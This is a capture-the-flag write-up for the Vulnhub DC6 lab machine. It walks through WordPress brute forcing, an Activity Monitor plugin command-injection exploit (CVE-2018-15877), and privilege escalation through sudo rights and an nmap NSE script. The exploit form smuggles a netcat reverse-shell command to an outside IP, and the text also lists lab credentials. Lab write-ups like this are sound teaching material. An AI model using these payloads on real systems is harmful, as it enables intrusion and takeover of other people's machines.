 ```yaml
---
layout: post
title: Vulnhub - DC6 writeup
date: 2019-07-06 11:21
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC6</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/DC6/nmap.png)

Only two ports are open. Let's just start with the website.

***

It's just another wordpress website. Let's see what we can find out from `wpscan` but before that edit your `/etc/hosts` file to add the following line:

```bash
<IP-of-the-machine>      wordy
```

This way `wpscan` won't mess up anything. I ran the following command:

```bash
➜ wpscan --url http://wordy -e p --no-banner --no-update
```

and I found some users

![](images/DC6/user.png)

and found that the theme that was used is outdated,

![](images/DC6/theme.png)

But wasn't vulnerable to any kind of attack. Since I can't see any way around I decided to bruteforce users for a password. I started with `sarah` and got nothing.

![](images/DC6/sarah.png)

and then `graham` and got nothing

![](images/DC6/graham.png)

then finally when I brutefroced the password for `mark` account I got a hit

![](images/DC6/mark.png)

We can use the password `helpdesk01` to login to mark's wordpress account.

***

After loggin into the dashboard I was thinking of getting a reverse shell using theme/plugin editing but there wasn't any option for that. The only new option I saw was `activity monitor`.

![](images/DC6/activity.png)

I looked around a bit and then just googled `wordpress activity monitor exploit`

![](images/DC6/google.png)

The very first URL was the exploit I was looking for i.e [RCE via Activity monitor](https://github.com/aas-n/CVE/tree/master/CVE-2018-15877)

I copy pasted the exploit in a file and opened in a browser to send the requests but it didn't work.

I had to edit the exploit because for some reason the URL encoded payload didn't work so I just added the `google.fr| nc -e /bin/sh 192.168.43.70 4444` without encoding.

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: Lyderic LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/sh 192.168.43.70 4444" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
and it worked. I spwaned the TTY shell using

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](images/DC6/reverse-shell.png)

***

I first visited the `/home` diretory and then realised that I have a password for `mark` so I tried to `su mark` but it didn't worked but I found something better in mark's home directory.

![](images/DC6/graham-pass.png)

Now we can use the `su` command to become `graham`.

![](images/DC6/su.png)

***

Let's enumerate the system using `Enumeration` script. I started python http server on my system and wget the file.

![](images/DC6/wget.png)

Meh....the script didn't found anything interesting. Will have to do a manual look around.

In the `jens` home directory I found a script named `backups.sh`. I tried running it like `./backups.sh` but got error saying `permission denied`. That's when I decided to check the sudo rights.

![](images/DC6/sudoer.png)

This mean I can run this script but not by doing `./backups.sh` but using the sudo right i.e `sudo -u jens ./backups.sh`.

![](images/DC6/test-run.png)

This mean we can just edit this file to get a shell.

***

I couldn't open the `backups.sh` file in nano since we were still depending on the shell we spwaned after getting the reverse shell.

I used the graham's creds i.e `graham: GSo7isUM1D4` to login with SSH.

***

I added a line in the end of the file to get us a shell.

![](images/DC6/edit.png)

This way I got a shell but this wasn't the root shell since that script was executed by user `jens` so we have became `jens` from `graham`.

![](images/DC6/su-jens.png)

The first thing I did was check the `jens` sudo right.

![](images/DC6/jens-sudo.png)

We can run nmap as a `root` :)

Just make a script in the tmp directory
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
```
and now we can run this script with nmap which will give us a shell.

![](images/DC6/root.png)

***

Thanks to [@DCAU7](https://twitter.com/DCAU7) for making an awesome machine.

